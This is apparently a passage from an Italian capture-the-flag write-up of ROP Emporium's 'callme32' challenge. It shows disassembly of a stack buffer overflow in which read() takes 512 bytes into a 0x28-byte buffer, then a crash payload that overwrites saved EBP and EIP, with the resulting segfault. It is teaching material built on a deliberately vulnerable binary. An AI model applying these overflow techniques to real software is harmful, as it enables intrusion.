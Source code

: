 ```text
│ 0x08048719      686b880408     push 0x804886b                        ; "> " ; const char *format
│ 0x0804871e      e8adfdffff     call sym.imp.printf                   ; int printf(const char *format)
│ 0x08048723      83c410         add esp, 0x10
│ 0x08048726      83ec04         sub esp, 4
│ 0x08048729      6800020000     push 0x200                            ; 512
│ 0x0804872e      8d45d8         lea eax, [s]
│ 0x08048731      50             push eax
│ 0x08048732      6a00           push 0
│ 0x08048734      e887fdffff     call sym.imp.read                     ; ssize_t read(int fildes, void *buf, size_t nbyte)
│ 0x08048739      83c410         add esp, 0x10
│ 0x0804873c      83ec0c         sub esp, 0xc
│ 0x0804873f      686e880408     push str.Thank_you_                   ; 0x804886e ; "Thank you!"
│ 0x08048744      e8b7fdffff     call sym.imp.puts                     ; int puts(const char *s)
│ 0x08048749      83c410         add esp, 0x10
│ 0x0804874c      90             nop
│ 0x0804874d      c9             leave
└ 0x0804874e      c3             ret

var void * s @ ebp-0x28
```

Oltre a stampare, invoca anche la funzione `read` che legge dallo **stdin** ed alloca *512* bytes in sullo *stack* a partire da *s*.
 
Si individua una **buffer overflow vulnerability**.

Di seguito il *payload* per sovvrascrivere il *saved eip* e mandare in *crash* il programma:

- **padding** di dimensione 0x28 + 0x4 bytes.
- **dummy saved eip** di dimensione 0x4 bytes.

Analizziamo il comportamento del programma inviando per prima un *input* sano che non sovvrascrive *saved ebp* e *saved eip*:

```bash
$ ./callme32 
callme by ROP Emporium
x86

Hope you read the instructions...

> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Thank you!

Exiting

```

Inviando il *payload* definito il precedenza sovvrascrivendo *saved ebp* con "BBBB" e *saved eip* con "CCCC":

```bash
$ ./callme32 
callme by ROP Emporium
x86

Hope you read the instructions...

> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCC
Thank you!
Segmentation fault (core dumped)

$ sudo dmesg 
[ 8477.097150] callme32[6043]: segfault at 43434343 ip 0000000043434343 sp 00000000fffa6400 error 14 in libc.so.6[f3b16000+20000] likely on CPU 0 (core 0, socket 0)
```